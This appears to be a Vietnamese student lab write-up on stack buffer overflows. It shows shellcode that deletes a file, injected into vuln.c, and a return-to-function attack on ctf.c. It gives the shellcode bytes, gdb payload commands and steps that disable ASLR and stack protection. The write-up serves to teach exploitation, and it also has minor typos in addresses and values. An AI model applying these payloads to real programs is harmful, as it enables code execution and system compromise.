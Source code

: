 # LAB 2
## Task 1: Inject code to delete file_asm through vuln.c is given on github

Dưới đây là code của `vuln.c`

![task1.1](./image/task1.1.png)

Và đây là code của `file_del.asm`

![task1.2](./image/task1.2.png)

Đầu tiên chúng ta sẽ liên kết tới máy ảo bằng cách sử dụng câu lệnh `docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab`

![task1.3](./image/task1.3.png)

Sau khi liên kết thư mục Seclabs từ hệ điều hành Window trên máy chúng ta đến seclabs trên hệ điều hành của máy ảo

Vì Ubuntu 16.04 không cho phép chúng ta thực thi `code` trên `stack`. Nên chúng ta cần phải sử dụng câu lệnh `sudo ln -sf /bin/zsh /bin/sh` để có thể thực thi `code` trên `stack`

![task1.4](./image/task1.4.png)

Và để có thể dễ dàng hơn khi thực hiện bài lab này, chúng ta sẽ phải tắt chức năng cấp phát địa chỉ ngẫu nhiên của hệ điều hành bằng lệnh `sudo sysctl -w kernel.randomize_va_space=0`

![task1.5](./image/task1.5.png)

Sau đó chúng ta sẽ đi biên dịch chương trình hợp ngữ `file_del.asm` bằng lệnh `nasm -g -f elf file_del.asm` và liên kết bằng lệnh `ld -m elf_i386 -o file_del file_del.o`

![task1.6](./image/task1.6.png)

Sau đó chúng ta sẽ lấy được chuỗi thập lục phân của `file_del.asm` bằng cách sử dụng: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

![task1.7](./image/task1.7.png)

=> Chuỗi thập lục phân: `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.`

Nhưng ở đây ta sẽ không cần `xdummyfile`
=> `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

Giờ chúng ta sẽ biên dịch `vuln.c` sao cho chúng ta có thể thực thi code trên stack bằng cách sử dụng lệnh: `gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

Cuối cùng ta tạo một file với tên `dummyfile`

![task1.8](./image/task1.8.png)

Dựa vào code của `vuln.c` ta có thể vẽ được stackframe 
|Stackframe|
|----------|
|buf (64 bytes)|
|EBP (4 bytes)|
|Return Address (4 bytes)|
|Argc (4 bytes)|
|Argv (4 bytes)|

Nhiệm vụ của chúng ta là phải thực thi được `file_del.asm` trong stack, vì vậy chúng ta cần làm tràn bộ đệm từ biến `buf` đến `return address` sao cho `return address` chỉ đến chuỗi thập lục phân của `file_del.asm`, mà `file_del.asm` lại nằm ở `esp` do chúng ta sẽ truyền chuỗi thập lục phân của `file_del.asm` vào đầu tiên. Từ đó chúng ta suy ra được sẽ cần truyền 36 bytes của chuỗi thập lục phân + 32 bytes đệm + 4 bytes địa chỉ `esp`. Nhưng chúng ta có thể thay 4 bytes của địa chỉ `esp` bằng `xff` để quan sát quá trình.

Dùng `gdb` để quan sát ta có thể đặt 2 breakpoint ở `0x0804843e` và `0x0804846b` 
![task1.9](./image/task1.9.png)

Chúng ta xài lệnh `r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")`

![task1.10](./image/task1.10.png)

Sử dụng `x/80xb $esp` để xem toàn bộ stackframe.(Màu vàng: `buf`; Màu xanh lá: `esp`; Màu xanh dương:`return address`)

![task1.11](./image/task1.11.png)

Sau đó ta tiếp tục bằng `continue`

![task1.12](./image/task1.12.png)

Sử dụng `x/80xb $esp` để xem lại toàn bộ stackframe.(Màu vàng: `buf`; Màu xanh lá: `esp`; Màu xanh dương:`return address`)

![task1.13](./image/task1.13.png)

So sánh với chuỗi thập lục phân, ta thấy được chỉ có 3 bytes đầu là đúng còn lại thì đều khác. Điều này là do chuỗi của chúng ta có `\x0a`.

Mà ta phải tránh:
`\x0a`: kí tự xuống dòng
`\x09`: tab ngang 
`\x00`: kí tự Null

Mà `\x0a` có giá trị thập phân là 10, xem trong chương trình hợp ngữ ta có thể thấy: 

![task1.14](./image/task1.14.png)

Do đó, cần thay đổi file asm

![task1.15](./image/task1.15.png)

Sau đó chúng ta biên dịch lại `file_del.asm` để lấy chuỗi thập lục phân mới

`\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`

Chúng ta sẽ thay bytes cuối của chuỗi thập lục phân thành `0x0f` để ngăn chuỗi kết thúc bởi `0x00`

`r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f' + 'a'*32 +'\xff\xff\xff\xff')")`

![task1.16](./image/task1.16.png)

Bây giờ, chương trình sẽ thông báo lỗi do nó không thể tìm để địa chỉ `0xffffffff` để trả về

=> Chúng ta cần thay `0x0f` thành `0x00` ở địa chỉ `0xffffd6cb` bằng lệnh `set {unsigned char} 0xffffd6cb = 0x00`. Và chúng ta sẽ thay tiếp địa chỉ trả về `0xffffffff` bằng giá trị của `buf` là `0xffffd6a8` bằng lệnh `set *0xffffd6ec = 0xffffd6a8`

Kết quả có được sẽ là:

![task1.17](./image/task1.17.png)

Tiếp tục chạy chương trình

![task1.18](./image/task1.18.png)

![task1.19](./image/task1.19.png)

Chúng ta thấy được dummyfile vẫn còn. Quay lại code hợp ngữ: `objdump -d file_del`

![task1.20](./image/task1.20.png)

Như chúng ta thấy thì `dummyfile` bắt đầu từ `0xffffd6c2` không phải từ `0x080407a` trong chương trình C

=> Thay `0xffffd6b1` thành `0xffffd6c2`: `set *0xffffd6b1 = 0xffffd6c2`

![task1.21](./image/task1.21.png)

Tiếp tục chạy chương trình

![task1.22](./image/task1.22.png)

Ta thấy `dummyfile` đã được xóa thành công.

## Task 2: Conduct attack on ctf.c

Dưới đây là code của `ctf.c`

![task2.1](./image/task2.1.png)

Từ code ta có thể thấy được lỗ hỏng ở đây nằm ở hàm `strcpy()` cho phép ta nhập dự liệu nhiều hơn so với dữ liệu đã khai báo dẫn đến trình trạng overflow và ta có thể khai thác từ đây. Và nhiệm vụ ở đây của chúng ta chính là thực thi được hàm `myfunc()` với biến `p=0x04081211` và biến `q=0x4644262`

Và từ code thì ta có thể có được stackframe của hàm `vuln()`:
|vuln()|
|----------|
|buf (100 bytes)|
|EBP (4 bytes)|
|Return Address|
|s (4 bytes)|

Và hàm `myfunc()`:
|myfunc()|
|----------|
|filebuf (64 bytes)|
|EBP (4 bytes)|
|Return Address (4 bytes)|
|p (4 bytes)|
|q (4 bytes)|

Từ đây chúng ta biết được, để gây ra overflow ta cần 104 bytes đệm và 4 bytes địa chỉ của `myfunc()` để ghi đè lên `return address` trên stackframe của `vuln()` nhưng vì ở đây `myfunc()` không được gọi trực tiếp từ hệ thống nên sẽ không được cấp phát dữ liệu cho biến `p` và `q` do đó chúng ta phải tìm được địa chỉ mà `myfunc()` lấy giá trị `p` và `q` từ đó chúng ta có thể overflow để ghi đè đến đó.

Đầu tiên chúng ta sẽ biên dịch `ctf.c`: `gcc -g ctf.c -o ctf.out -fno-stack-protector-mpreferred-stack-boundary=2`

Sau đó dùng `gdb` để quan sát `myfunc`

![task2.2](./image/task2.2.png)

+ Màu xanh dương là địa chỉ của `myfunc()`: `0x0804851b`
+ Màu xanh lá là địa chỉ mà `myfunc()` lấy giá trị của `p`: `ebp+0x8` (ebp + 8)
+ Màu vàng là địa chỉ mà `myfunc()` lấy giá trị của `q`: `ebp+0xc` (ebp + 12)

Từ đó chúng ta sẽ sử dụng lệnh: 

`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`

Để ghi đè địa chỉ `myfunc()` cũng như giá trị biến `p` và `q`.

Trước khi chạy lệnh ta cần tạo 1 file `flag1.txt` vì `myfunc()` sẽ có đọc file này.

![task2.3](./image/task2.3.png)

Và giờ ta sẽ chạy lệnh

![task2.4](./image/task2.4.png)

Như ta thấy, sau khi chạy thì bị lỗi `0x61616161 in ??` và dừng. Nguyên nhân là do hệ thống không biết địa chỉ trả về này. Vì vậy chúng ta cần phải lấy địa chỉ của `exit` để ghi đè lên địa chỉ trả về mới là `0x61616161` hay rõ hơn chính là 4 bytes đệm của chúng ta giữa địa chỉ của `myfunc()` và giá trị của `p` (0x61616161 = 'a'*4)

Do đó chúng ta sẽ tìm địa chỉ của `exit`

![task2.5](./image/task2.5.png)

Có được địa chỉ của `exit`: `0xf7e449e0`

=> Lệnh mới của chúng ta là: `r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x49\xe4\xf7'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`

![task2.6](./image/task2.6.png)

Và chúng ta đã thành công chạy được `myfunc()` cũng như truyền vào được giá trị của `p` và `q`.